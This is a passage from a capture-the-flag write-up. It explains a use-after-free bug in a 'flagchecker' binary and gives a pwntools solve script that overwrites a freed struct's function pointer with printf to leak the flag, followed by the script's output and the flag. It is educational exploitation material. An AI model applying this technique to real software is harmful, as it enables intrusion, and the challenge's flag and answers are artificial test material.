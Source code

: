 In this case `fc` will still be pointing to the same location that we just wrote to.

Another important detail is that the program does not use PIE. This means that the address of the `printf` plt entry will always be at the same location.

## Exploiting the program

Here is my solve script. I have annotated it with comments such that it should be easy to understand:

```py
from pwn import *

elf = ELF('./flagchecker', checksec=False)

c = remote('ddc-flagchecker.hkn', 5000)

STRCMP_OPTION = b'1'
CLEANUP_OPTION = b'5'
LEAVE_MESSAGE_OPTION = b'6'

# Give fc a value such that fc is initiated with a value
log.info(f'Setting up')
c.sendlineafter(b'> ', STRCMP_OPTION)

c.sendlineafter(b'Enter your hash: ', b'dummy')

# Now fc has a reference. We will free it and overwrite it with our values
log.info(f'Triggering free')
c.sendlineafter(b'> ', CLEANUP_OPTION)

# Now we overwrite fc->method with printf and fc->param with the address of a string from the elf ("%s")
log.info(f'Overwriting fc')

c.sendlineafter(b'> ', LEAVE_MESSAGE_OPTION)

c.sendlineafter(b'Leave a message: ', p32(next(elf.search(b'%s'))) + p32(elf.symbols.printf))

# After the leaveMessage() function has finished, it will run the run() function,
# which will call fc->method(fc->param, flag). This will call printf("%s", flag).

flag = c.recvline_contains(b'DDC')

if not flag:
    log.failure('No flag')
    exit(1)

log.success(f'Success! Flag: {flag.decode()}')
```

Here is the output of the script:

```text
[+] Opening connection to ddc-flagchecker.hkn on port 5000: Done
[*] Setting up
[*] Triggering free
[*] Overwriting fc
[+] Success! Flag: DDC{us3_0nly_4ft3r_fr33!}
[*] Closed connection to ddc-flagchecker.hkn port 5000
```

# Flag

`DDC{us3_0nly_4ft3r_fr33!}`
